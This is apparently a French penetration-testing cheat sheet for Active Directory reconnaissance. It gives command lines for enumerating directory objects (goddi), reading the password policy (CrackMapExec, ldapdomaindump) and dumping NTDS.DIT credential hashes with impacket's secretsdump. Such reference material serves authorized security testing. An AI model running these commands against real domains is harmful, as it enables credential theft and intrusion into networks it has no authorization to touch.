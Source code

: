 # Reconnaissance

### Enumération des objets

Récupérer les objets de l'Active Directory :

```
sudo goddi -username=<USER> -password="<PASS>" -dc="<IP-DC>" -domain="<domain.local>" -unsafe
```

_Il est possible de lire facilement le résultat avec la commande suivante : `cat <file>.csv | cut -d "," -f <COL>`._

### Politique de mot de passe

```
cme smb <IP>/<MASK> -u <USER> -p <PASSWORD> --pass-pol
```

```
ldapdomaindump.py -u "<domain.local>\<USER>" -p <PASS> -n <DNS ou IP-DC> <IP-DNS>
```

### Récupérer le fichier NTDS.DIT

_**Note :** nécessite les droits "Admins de domaine"._

```
# impacket
secretsdump.py <DOMAIN.COM>/Administator:<PASSWORD>@<IP>
```
